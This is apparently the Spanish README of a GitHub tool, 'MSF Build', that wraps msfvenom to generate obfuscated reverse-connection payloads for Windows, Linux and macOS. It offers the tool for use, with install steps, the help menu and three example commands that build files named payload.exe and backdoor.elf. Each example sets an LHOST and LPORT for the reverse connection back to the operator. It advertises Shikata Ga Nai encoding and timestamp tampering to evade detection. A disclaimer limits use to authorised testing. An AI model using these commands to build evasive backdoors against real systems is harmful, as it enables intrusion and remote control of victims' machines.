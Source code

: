 # 🛠️ MSF Build - Advanced Payload Builder

*Herramienta profesional para generar payloads ofuscados con Msfvenom utilizando el codificador Shikata Ga Nai*

![msfbuild](https://github.com/user-attachments/assets/d617ca7f-50f8-46b3-be4b-6ed0567277c0)

## 📜 Descripción
**MSF Build** es una herramienta CLI para generar payloads ofuscados multiplataforma con medidas anti-detección integradas. Utiliza `msfvenom` para crear los payloads y está diseñado para pruebas de penetración éticas.

## ✨ Características
- ✅ Soporte para **Windows**, **Linux** y **macOS**
- 🔄 Ofuscación con **Shikata Ga Nai** y múltiples interaciones.
- 🛡️ Medidas básicas anti-detección (modificación de metadatos)
- 🎨 Interfaz colorida con animaciones
- 🧩 Generación de payloads en múltiples formatos: `exe`, `elf`, `macho`, `python`

## 🚀 Instalación

### Requisitos:
- Python 3.6+
- Metasploit Framework (`msfvenom`)
- Terminal con soporte ANSI

```
# Instalar dependencias
pip install colorama
sudo apt install metasploit-framework  # Para sistemas Debian/Ubuntu

# Clonar repositorio
git clone https://github.com/afsh4ck/MSF-Build.git
cd MSF-Build
```

## 🖥️ Uso

Menú de Ayuda:
```
python3 msfbuild.py -h                                                                                  
    __  ___ _____  ______   ____          _  __     __
   /  |/  // ___/ / ____/  / __ ) __  __ (_)/ /____/ /
  / /|_/ / \__ \ / /_     / __  |/ / / // // // __  / 
 / /  / / ___/ // __/    / /_/ // /_/ // // // /_/ /  
/_/  /_/ /____//_/      /_____/ \__,_//_//_/ \__,_/   
-------------------------------------------------------
     Msfvenom advanced obfuscated payload generator    
-------------------------------------------------------
                 Developed by: @afsh4ck                

usage: python3 msfbuild.py --os <OS> --arch <ARCH> --type <TYPE> --lhost <IP> --lport <PORT> -o <OUTPUT> [-i ITERATIONS]

options:
  --os {windows,linux,macos}               Sistema operativo objetivo
  --arch {x86,x64}                         Arquitectura objetivo
  --type {exe,elf,macho,python}            Tipo de archivo de salida
  --lhost LHOST                            Dirección IP para conexión reversa
  --lport LPORT                            Puerto para conexión reversa
  -o OUTPUT, --output OUTPUT               Nombre del archivo de salida
  -i ITERATIONS, --iterations ITERATIONS   Iteraciones de ofuscación (solo x86)
  -h, --help                               Mostrar este mensaje de ayuda
```

## 💻 Ejemplos

### Generar payload para Windows x86:
```
python3 msfbuild.py \
  --os windows \
  --arch x86 \
  --type exe \
  --lhost 192.168.1.100 \
  --lport 4444 \
  -o payload.exe \
  -i 10
```
### Generar payload para Linux x64:
```
python3 msfbuild.py \
  --os linux \
  --arch x64 \
  --type elf \
  --lhost 10.0.0.5 \
  --lport 8080 \
  -o backdoor.elf
```
### Generar payload para macOS:
```
python3 msfbuild.py \
  --os macos \
  --arch x64 \
  --type macho \
  --lhost 172.16.23.45 \
  --lport 6500 \
  -o mac_payload
```

## 🛡️ Medidas de Seguridad

- Modificación de timestamps en archivos .exe
- Advertencias automáticas para configuraciones incompatibles
- Validación estricta de parámetros de entrada

## ⚠️ Disclaimer

Este software está diseñado exclusivamente para:
- Pruebas de seguridad autorizadas
- Investigación en entornos controlados
- Educación en ciberseguridad

El uso malicioso de esta herramienta es estrictamente prohibido. 
El autor no se hace responsable del uso indebido.

## 🥷🏼 Autor
- Autor:       afsh4ck 
- Instagram:   <a href="https://www.instagram.com/afsh4ck">afsh4ck</a>
- Youtube:     <a href="https://youtube.com/@afsh4ck">afsh4ck</a>

## ❤️ Soporte

<a href="https://www.buymeacoffee.com/afsh4ck" rel="nofollow"><img width="250" align="left">
![buy-me-a-coffe](https://github.com/user-attachments/assets/8c8f9e81-334e-469e-b25e-29888cfc9fcc)
</a>
